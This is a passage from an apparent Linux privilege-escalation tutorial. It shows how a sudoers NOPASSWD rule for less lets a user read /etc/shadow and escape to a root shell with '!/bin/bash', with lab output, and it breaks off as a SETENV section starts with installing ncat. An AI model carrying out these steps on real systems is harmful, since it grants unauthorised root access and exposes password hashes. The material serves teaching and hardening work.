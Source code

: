 Edit the sudo configuration file:

```shell
sudo visudo
```

Sudo configuration might allow a user to execute some command with another user's privileges without knowing the password.

```shell
user:  ALL = NOPASSWD: /usr/bin/less
```

List the sudo configuration:

```shell
user@pwn:~$ sudo -l
Matching Defaults entries for user on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on ubuntu:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/less
```

Run less with sudo:

```shell
sudo /usr/bin/less /etc/shadow
```

Escape from less with:

```shell
!/bin/bash
```

Now we will have a root shell:

```shell
user@pwn:~$ sudo /usr/bin/less /etc/shadow
root@pwn:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
root@pwn:/home/user# whoami
root
root@pwn:/home/user# 
```

# Privilege Escalation via SETENV

This directive allows the user to **set an environment variable** while executing something:

```shell
sudo apt install ncat
```

Edit the sudo configuration file:
